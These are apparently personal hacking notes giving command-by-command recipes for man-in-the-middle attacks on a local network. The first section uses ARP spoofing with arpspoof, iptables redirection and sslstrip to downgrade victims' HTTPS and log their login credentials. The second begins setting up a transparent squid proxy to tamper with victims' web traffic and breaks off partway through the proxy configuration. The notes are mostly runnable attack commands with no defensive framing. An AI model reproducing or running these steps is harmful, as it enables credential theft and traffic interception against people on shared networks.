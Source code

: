 ---------------------------------------------------------------------

## SSL STRIPS ##
	How to convert HTTPS to HTTP! (removing security of login credentials)

	Tools:	sslstrip
			dsniff
			arpspoof

	0) Install SSLSTRIP
		~apt-get install sslstrip
	1) Change ip_forward from 0 to 1
		~echo 1 > proc/sys/net/ipv4/ip_forward
	2) Configure Firewall port
		~iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
	3) Get the victim's IP and scan it with NMAP
		~ifconfig
		~nmap 192.168.1.2-254 -vv
	4) Spoof in two different terminals!
		~arpspoof -i wlp2s0 -t <default_port> -r <victim_port>
		~arpspoof -i wlan0 -t 192.168.0.1 -r 192.168.0.103
	5) Open port 8080
		~iptables -I INPUT 1 -p tcp --dport 8080 -j ACCEPT
	6) Listen to port 8080
		~sslstrip -l 8080
	7) Provide a live feed of the log file
		~tail -f sslstrip.log

---------------------------------------------------------------------

## FUNNY SCRIPTS ##

	Tools:	squid3
			apache2
			imagemagick
			ghostscript
			jp2a
			arpspoof

	0) Change ip_forward from 0 to 1
		~echo 1 > proc/sys/net/ipv4/ip_forward
	1) Install the following programs
		~apt-get install squid3
		~apt-get install apache2
		~apt-get install imagemagick ghostscript jp2a
	2) Look for a script of your choice (preferably at code.google.com)
		asciiImages.pl
		blurImages.pl
		flipImages.pl or flopImages.pl
		googleSearch.pl
		noInternet.pl
		replaceImages.pl
		replacePages.pl
		rickrollYoutube.pl
		timeMachine.pl
		touretteImages.pl
	3) Open the configuration file
		~nano /etc/squid3/squid.conf
	>Uncomment the lines
		acl localnet src 10.0.0.0/8
		acl localnet src 192.168.0.0/16 (or similar one)
		http_access allow localnet
		http_access allow localhost
	>Add 'transparent' after